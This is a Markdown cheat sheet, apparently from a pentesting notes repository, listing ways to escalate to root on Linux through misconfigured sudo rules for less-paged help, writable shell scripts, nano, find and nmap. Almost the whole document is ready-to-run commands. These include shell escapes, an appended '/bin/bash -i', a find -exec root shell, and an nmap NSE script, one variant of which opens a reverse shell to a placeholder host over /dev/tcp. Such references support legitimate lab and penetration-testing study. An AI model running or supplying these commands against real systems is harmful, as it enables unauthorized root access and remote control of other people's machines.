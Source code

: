 # Linux Privilege Escalation with Misconfigured sudo
[< Back to Menu](README.md)

## help
Any binary that support `help` and utilize `less` pager can be elevated privilege.<br>
Prerequisite: `help` with `less` pager
```bash
sudo some_binary help
```
after that, type `!/bin/sh` in the help manual.

## .sh file
> (root) NOPASSWD: /home/anyfile.sh
- Append/Replace /bin/bash -i to the file and execute to get root shell
```bash
echo "/bin/bash -i >> /home/anyfile.sh"
/home/anyfile.sh
```

## nano
> (root) NOPASSWD: /usr/bin/nano
- Open nano with sudo
- Press `^R Read File` and then `^X Execute Command`
- Then type `reset; sh 1>&0 2>&0` and enter and wait for `#` to be shown
- Then, you got the root shell
```bash
sudo nano
^R
^X
reset; sh 1>&0 2>&0
```

## find
> (root) NOPASSWD: /usr/bin/find
```bash
sudo find /etc/passwd -exec /bin/bash \;
```

## Nmap 
> (root) NOPASSWD: /usr/bin/nmap
- Method 1 - The input will be invisible, but still executable.
```bash
echo "(function() os.execute('/bin/bash -i') end)()" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```
- Method 2 - Use reverse shell method so that the input will not be invisible anymore.
```bash
echo "(function() os.execute('/bin/bash -c \"bash -i >& /dev/tcp/<target_ip>/<target_port> 0>&1\"') end)()" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```
